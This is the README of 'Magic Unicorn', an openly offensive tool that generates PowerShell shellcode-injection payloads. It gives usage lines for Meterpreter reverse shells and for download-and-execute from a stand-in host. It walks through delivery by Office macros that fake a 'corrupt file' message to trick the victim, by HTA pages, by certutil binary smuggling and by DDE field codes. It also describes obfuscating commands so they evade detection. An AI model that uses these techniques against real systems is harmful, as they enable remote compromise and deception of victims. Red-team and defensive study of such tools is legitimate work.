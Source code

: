 unicorn
=======

Written by: Dave Kennedy (@HackingDave)
Website: https://www.trustedsec.com

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.

Usage is simple, just run Magic Unicorn (ensure Metasploit is installed and in the right path) and magic unicorn will automatically generate a powershell command that you need to simply cut and paste the powershell code into a command line window or through a payload delivery system.
```
root@rel1k:~/Desktop# python unicorn.py 

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=

                
-------------------- Magic Unicorn Attack Vector -----------------------------

Native x86 powershell injection attacks on any Windows platform.
Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Help Menu: python unicorn.py --help
```

###                -----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

###                -----MACRO ATTACK INSTRUCTIONS----

For the macro attack, you will need to go to File, Properties, Ribbons, and select Developer. Once you do
that, you will have a developer tab. Create a new macro, call it Auto_Open and paste the generated code
into that. This will automatically run. Note that a message will prompt to the user saying that the file
is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is  tricking the
victim to thinking the excel document is corrupted. You should get a shell through powershell injection
after that.

If you are deploying this against Office365/2016+ versions of Word you need to modify the first line of 
the output from: Sub Auto_Open()
 
To: Sub AutoOpen()
 
The name of the macro itself must also be "AutoOpen" instead of the legacy "Auto_Open" naming scheme.

NOTE: WHEN COPYING AND PASTING THE EXCEL, IF THERE ARE ADDITIONAL SPACES THAT ARE ADDED YOU NEED TO
REMOVE THESE AFTER EACH OF THE POWERSHELL CODE SECTIONS UNDER VARIABLE "x" OR A SYNTAX ERROR WILL
HAPPEN!

###                -----HTA ATTACK INSTRUCTIONS----

The HTA attack will automatically generate two files, the first the index.html which tells the browser to
use Launcher.hta which contains the malicious powershell injection code. All files are exported to the
hta_access/ folder and there will be three main files. The first is index.html, second Launcher.hta and the
last, the unicorn.rc file. You can run msfconsole -r unicorn.rc to launch the listener for  Metasploit.

A user must click allow and accept when using the HTA attack in order for the powershell injection to work
properly.

###                -----CERUTIL Attack Instruction----

The certutil attack vector was identified by Matthew Graeber (@mattifestation) which allows you to take
a binary file, move it into a base64 format and use certutil on the victim machine to convert it back to
a binary for you. This should work on virtually any system and allow you to transfer a binary to the victim
machine through a fake certificate file. To use this attack, simply place an executable in the path of
unicorn and run python unicorn.py <exe_name> crt in order to get the base64 output. Once that's finished,
go to decode_attack/ folder which contains the files. The bat file is a command that can be run in a
windows machine to convert it back to a binary.


###                -----Custom PS1 Attack Instructions----

This attack method allows you to convert any PowerShell file (.ps1) into an encoded command or macro.

Note if choosing the macro option, a large ps1 file may exceed the amount of carriage returns allowed by
VBA. You may change the number of characters in each VBA string by passing an integer as a parameter.

Examples:

python unicorn.py harmless.ps1
python unicorn.py myfile.ps1 macro
python unicorn.py muahahaha.ps1 macro 500

The last one will use a 500 character string instead of the default 380, resulting in less carriage returns in VBA.




###                -----DDE Office COM Attack Instructions----

This attack vector will generate the DDEAUTO formulate to place into Word or Excel. The COM object 
DDEInitilize and DDEExecute allow for formulas to be created directly within Office which causes the
ability to gain remote code execution without the need of macros. This attack was documented and full
instructions can be found at:

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

In order to use this attack, run the following examples:

python unicorn.py <payload> <lhost> <lport> dde
python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde

Once generated, a powershell_attack.txt will be generated which contains the Office code, and the
unicorn.rc file which is the listener component which can be called by msfconsole -r unicorn.rc to
handle the listener for the payload. In addition a download.ps1 will be exported as well (explained
in the latter section).

In order to apply the payload, as an example (from sensepost article):

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn
7. Save the Word document.

Once the office document is opened, you should receive a shell through powershell injection. Note
that DDE is limited on char size and we need to use Invoke-Expression (IEX) as the method to download.

The DDE attack will attempt to download download.ps1 which is our powershell injection attack since
we are limited to size restrictions. You will need to move the download.ps1 to a location that is
accessible by the victim machine. This means that you need to host the download.ps1 in an Apache2
directory that it has access to.

You may notice that some of the commands use "{ QUOTE" these are ways of masking specific commands
which is documented here: http://staaldraad.github.io/2017/10/23/msword-field-codes/. In this case
we are changing WindowsPowerShell, powershell.exe, and IEX to avoid detection. Also check out the URL
as it has some great methods for not calling DDE at all.

